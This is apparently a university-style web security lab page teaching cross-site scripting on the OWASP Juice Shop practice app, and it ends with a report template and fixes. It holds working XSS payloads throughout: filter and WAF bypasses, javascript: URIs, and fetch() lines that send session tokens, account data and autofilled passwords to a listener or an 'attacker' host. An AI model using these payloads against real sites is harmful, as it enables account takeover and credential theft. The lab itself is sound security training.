




Lab 04: Cross-Site Scripting (XSS)
Last week you tricked the database into running your SQL. This week you trick the victim's browser into running your JavaScript. Once your script runs inside a page they trust, their logged-in session is yours.
1. What XSS Really Is
A 19-year-old user discovered that putting a Unicode heart (♥) at the end of a tweet stopped TweetDeck from escaping HTML tags. Minutes later, someone tweeted a short <script> tag ending with ♥. Anyone who merely saw that tweet scroll into their TweetDeck column ran the JavaScript automatically.
The script reached into the victim's page, clicked their Retweet button for them, and popped an alert box. Within an hour it hijacked over 82,000 accounts (including the BBC, New York Times, and the White House), forcing Twitter to pull TweetDeck offline completely.
On Twitter.com: Escaped (Safe)
printed as words
Twitter's main website escaped < into <, so the browser just printed the characters on screen. Strange tweet, zero code execution.
On TweetDeck: Unescaped (XSS)
ran as code
TweetDeck dropped the raw <script> straight into the page DOM. The browser couldn't tell it apart from Twitter's own code, so it ran it immediately.
<script class="xss">
$('.xss').parents().eq(1).find('a').eq(1).click(); // 1. Open tweet actions in the DOM
$('[data-action=retweet]').click(); // 2. Click "Retweet" as the victim
alert('XSS in Tweetdeck'); // 3. Pop the alert on their screen
</script>♥What you see on screen is the DOM (Document Object Model): the browser takes HTML text, parses it into a live tree of elements, and runs any script inside it. Because the browser has no way to tell JavaScript the developer wrote from JavaScript you smuggled into a search bar or comment, everything comes down to one question: did the app escape your characters so they stay words, or did it drop them into the page as code?

Their session token (or session cookie). After login, the browser proves who you are on every request by sending that token. Steal it, drop it into your own browser, and the server treats you as that user. Whether XSS can read that token depends entirely on where the developer stored it.
Where Juice Shop keeps your session: localStorage & Cookies vs. HttpOnly
Web apps keep your session token in Cookies, localStorage, or both. Log into Juice Shop, open the DevTools Console (F12), and run both commands:
> localStorage.getItem('token')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJkYXRhIjp7ImlkIjozLCJ1c2VybmFtZSI6IiIsImVtYWlsIjoiYmVuZGVyQGp1aWNlLXNoLm9w…'
> document.cookie
'language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=…; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9…'
Look closely: the exact same eyJ0eXAi… JWT shows up in both places! Juice Shop's login script saves the token into localStorage and writes a token=… cookie from JavaScript without the HttpOnly flag. That means an attacker's XSS payload can steal it using either localStorage.getItem('token') or document.cookie.
Cookie with HttpOnly Flag
hidden from JS
- When the server sets
Set-Cookie: token=…; HttpOnly, the browser still sends the cookie on every request, but hides it completely fromdocument.cookie. - An XSS payload can still click buttons as you (like TweetDeck), but it can't read the raw token string and walk out the door with it.
localStorage or Cookie without HttpOnly
wide open to JS
-
localStoragehas noHttpOnlyflag at all, and any cookie set withoutHttpOnlyshows right up insidedocument.cookie. - In Juice Shop, both are exposed: calling
localStorage.getItem('token')(ordocument.cookie) hands the entire JWT session to your script in one line.
2. The Three Types of XSS
Every XSS attack ends the same way (your JavaScript runs in the victim's browser), but there are three different ways your payload gets there. Look at where the payload starts and whether the server stores it:
3. Land Your First XSS on Juice Shop
Juice Shop's search bar takes whatever you type and writes it straight into the results heading as raw HTML. Before you type your first payload, there's one browser rule every pentester learns the hard way: why <script>alert(1)</script> often does nothing in modern apps.
Why <script> fails in innerHTML
blocked by HTML5 spec
<script>alert(1)</script>
Single-page apps (Angular, React, Vue) don't reload the whole page when you search. Their JavaScript injects your text into an existing element via innerHTML. By the HTML5 spec, browsers refuse to run <script> tags added via innerHTML after page load.
Why <img onerror=…> works
fires immediately
<img src=x onerror=alert(document.domain)>
Instead of a <script> tag, you inject an HTML element with an event handler. As soon as innerHTML inserts the <img>, the browser tries to load image x, fails, and fires your JavaScript inside onerror.
OWASP Juice Shop
docker run --rm -d --name juice -p 3000:3000 bkimminich/juice-shop- Click the magnifying glass icon in the top bar of Juice Shop to open the search box.
- Paste this payload and press Enter:
<img src=x onerror=alert(document.domain)> - An alert box pops showing
localhost. Click OK and look at the grey search banner: right next toSearch Results -sits the broken image icon that triggered your code.

Search Results -. Instead of printing your text, Angular inserted a real <img> tag into the DOM and ran its onerror handler.
Nothing popped?
Open the URL route directly in your address bar: http://localhost:3000/#/search?q=<img src=x onerror=alert(document.domain)>. If you press F12 → Elements and inspect the Search Results - heading, you'll see your <img src="x" onerror="..."> sitting inside the DOM as a live element.
If you run the exact same search twice without changing it, Angular doesn't re-render the heading. Change alert(document.domain) to alert(1) or reload the page (F5).
4. Weaponize It: Steal the Session & Take Over the Account
An alert box only proves the bug exists. Nobody pays a bounty for annoying a user with a popup. Now we replace alert(document.domain) with code that grabs the victim's JWT and logs us in as them.
- Make sure you're logged into Juice Shop first (use your account or last week's
' OR 1=1--login bypass) so there is a live session token in the browser. - Combine the
<img src=x onerror=…>trigger from Step 1 withlocalStorage.getItem('token')(ordocument.cookie) from Section 1. Fill in the blank and run it in the search box:<img src=x onerror="alert( ______ )"> - The alert pops with the victim's JWT string starting with
eyJ0eXAiOiJKV1Qi…. Copy that entire JWT string. - Open a brand-new Incognito / Private window and go to
http://localhost:3000. Click Account in the top bar to confirm you are logged out. - In that Incognito window, press F12 → Console, paste your stolen JWT into both places Juice Shop checks, and press Enter:
localStorage.setItem('token', 'PASTE_STOLEN_JWT_HERE'); document.cookie = 'token=PASTE_STOLEN_JWT_HERE'; - Refresh the Incognito page (F5) and click Account. You are now logged in as the victim (with their email displayed right at the top of the menu) with no password and no login prompt.
Need the exact payload for line 2? (Plus a zero-quote JS trick)
Standard way: <img src=x onerror="alert(localStorage.getItem('token'))">
Low-key JS hack (zero quotes needed): In JavaScript, localStorage is a regular object, so you can read keys with dot notation instead of getItem('token'): <img src=x onerror=alert(localStorage.token)>. If a filter blocks single and double quotes, dot notation walks right past it.
Wait: if an alert pops on the victim's laptop, they see the token, not you. On a real engagement you want their browser to quietly ship the token to a server you control without showing anything on screen. Notice we use localStorage.token here to keep the payload short:
python3 -m http.server 9000<img src=x onerror="fetch('http://localhost:9000/?token='+localStorage.token)">127.0.0.1 - - [23/Oct/2026 15:20:00] "GET /?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... HTTP/1.1" 200 -
Zero popup on the victim's screen, and their full JWT lands in your terminal access log. In a real test, localhost:9000 is your attacker VPS or Burp Collaborator domain.
HttpOnly cookie and deleting localStorage.token. Now document.cookie is empty and you cannot steal the token. Your XSS still runs inside the victim's browser. How do you still read their private account data or perform actions as them?Make the victim's browser call the site's API for you with fetch()! HttpOnly only stops JavaScript from reading the cookie string. When your script runs on localhost:3000 and calls fetch('/rest/user/whoami'), the browser automatically attaches the HttpOnly cookie to that request, and your script can read the full API response!
Earlier we saw that GET /rest/user/whoami authenticates the user via their token cookie. Even if that cookie had HttpOnly enabled, watch what happens when your XSS payload calls /rest/user/whoami from inside the page and ships the JSON reply to your listener on port 9000:
<img src=x onerror="fetch('/rest/user/whoami').then(r=>r.text()).then(d=>fetch('http://localhost:9000/?whoami='+encodeURIComponent(d)))">127.0.0.1 - - [23/Oct/2026 15:25:00] "GET /?whoami=%7B%22user%22%3A%7B%22id%22%3A3%2C%22email%22%3A%22bender%40juice-sh.op%22... HTTP/1.1" 200 -5. Attribute Breakout, WAF Bypasses & Modern 2020s Traps
In real assessments, you won't always get an unfiltered search box. Developers encode angle brackets, WAFs block spaces and parentheses, and modern React/Angular apps don't use innerHTML. Here is how pentesters get past each one.
Breaking out of an HTML attribute when < and > are encoded
Context 1: Between HTML Tags
open a new tag<p>Search results for: YOUR_INPUT</p>
// Inject a new tag:
<img src=x onerror=alert(1)>Used in standard Reflected XSS (search echoes) and Stored XSS (blog comments, profiles, TweetDeck).
Context 2: Inside an Attribute
close quote + add handler<input type="text" value="YOUR_INPUT">
// Inject " to close value, then add an event:
" autofocus onfocus=alert(document.domain) x="
Press Ctrl+U (View Page Source): when < and > are HTML-encoded to < in the heading, check if your search also lands inside <input value="YOUR_INPUT">. An unescaped " closes value="" and bolts autofocus onfocus=… onto the existing tag!
<input type="text" value="YOUR_INPUT">, what does the final HTML tag look like in the browser, and why does it fire without anyone clicking?The tag becomes <input type="text" value="" autofocus onfocus=alert(document.domain) x="">. The autofocus attribute tells the browser to focus that input box automatically as soon as the page loads, which immediately triggers onfocus and runs your JavaScript with zero user clicks.
Think you know HTML & JS? Three parser tricks that bypass WAFs
Web Application Firewalls (Cloudflare, AWS WAF) and naive sanitizers often block spaces ( ), parentheses (( )), or quotes (' "). Because HTML5 and ES6 JavaScript have quirky parser rules, you can write a working XSS payload without any of them. Try all three in Juice Shop's search box right now:
| What the Filter Blocks | The Parser Trick | Working Payload |
|---|---|---|
No Spaces ( )Strips or blocks whitespace |
The HTML5 tokenizer treats a forward slash (/) between a tag name and attributes as valid whitespace. |
<img/src=x/onerror=alert(document.domain)> |
No Parentheses (( ))Blocks function calls like alert(1) |
ES6 Tagged Template Literals let you invoke any JavaScript function using backticks (`…`) instead of parentheses! |
<img/src=x/onerror=alert`1`> |
No Quotes (' ")Breaks getItem('token') |
localStorage is a JS object, so dot notation (localStorage.token) reads the JWT with zero quotes and zero spaces. |
<img/src=x/onerror=alert(localStorage.token)> |
Modern 2020s XSS: How React & Angular apps still get owned
{url}) and Angular ({{ url }}) automatically HTML-encode <, >, ", and '. A developer writes <a href="{{ userWebsite }}">Visit Website</a> on a user profile page with NO innerHTML. What URL do you save as your website to steal the session of anyone who clicks it?javascript:fetch('http://attacker:9000/?t='+localStorage.token). Notice there is not a single <, >, or " character in that string, so HTML-encoding does nothing to it! Inside an href (or <iframe src=…>), the javascript: pseudo-protocol executes your code the instant the link is clicked.
2020s Trap 1: javascript: URI Sinks
survives HTML encoding
// In React/Angular profile link:
<a href="javascript:alert(localStorage.token)">
// Or inside an iframe (try in Juice Shop!):
<iframe src="javascript:alert(`xss`)">
HTML-escaping only neutralizes angle brackets and quotes. Unless the app checks that the URL starts with https:// or http://, javascript: URIs turn links and iframes into code execution.
2020s Trap 2: Password-Manager Autofill Theft
steals plaintext password<input name=email>
<input type=password
onchange="fetch('http://localhost:9000/?pw='+this.value)">
What if the session token is locked inside an HttpOnly cookie and you want the victim's actual password? Injecting a login input pair on the trusted domain tricks browser password managers into auto-filling their saved password and shipping it to your listener!
PortSwigger Web Security Academy · Four Live Targets
6. Write the Finding & How Developers Fix It
Here is how you document today's Juice Shop vulnerability in a real penetration test report, followed by the exact line of Angular code that caused it.
| Title | DOM-Based XSS in Product Search Enabling Session Token Theft |
| Severity | High · CVSS 7.1 (requires victim to open a crafted link; yields full account takeover) |
| Affected endpoint | Client-side route /#/search?q= rendered into #searchValue as raw HTML |
| Steps to reproduce | 1. Navigate to /#/search?q=<img src=x onerror=alert(document.domain)> → JavaScript executes.2. Replace payload with <img src=x onerror="fetch('http://attacker:9000/?c='+localStorage.getItem('token'))"> → victim's JWT is exfiltrated silently. |
| Impact | Any authenticated user who opens a crafted link runs attacker JavaScript in their session. Because the session JWT is stored in localStorage and in a cookie without the HttpOnly flag, an attacker can steal the token and take over the account completely. |
| Remediation | 1. Remove bypassSecurityTrustHtml() on user-controlled search terms and let Angular escape output by default.2. Store session tokens only in HttpOnly; Secure; SameSite cookies (never in localStorage or client-accessible cookies).3. Add a strict Content-Security-Policy header blocking inline scripts. |
Why the bug existed in Juice Shop's source code
💥 Vulnerable Code (Juice Shop)
escaping disabled// Angular escapes HTML automatically,
// so the developer explicitly turned it OFF:
this.searchValue =
this.sanitizer
.bypassSecurityTrustHtml(query);✅ Secure Code
escaped by default// Let Angular treat user input as plain text:
this.searchValue = query;
// In template: <span>{{ searchValue }}</span>
// < and > are encoded to < and >
Modern frameworks (Angular, React, Vue) escape variables by default. XSS happens in them when a developer deliberately calls an escape-hatch function like Angular's bypassSecurityTrustHtml() or React's dangerouslySetInnerHTML on untrusted user input.
7. Quick Check
Test your understanding of today's attacks before wrapping up.
<img src=x onerror=alert(1)> work in Juice Shop's search bar when <script>alert(1)</script> did not?localStorage.getItem('token') and document.cookie?<input value="YOUR_INPUT">. The server HTML-encodes < and >, but does NOT encode double quotes ("). How do you execute JavaScript?alert(1) without using a <script> tag.alert with 1 without using <script>, spaces ( ), or parentheses (( )).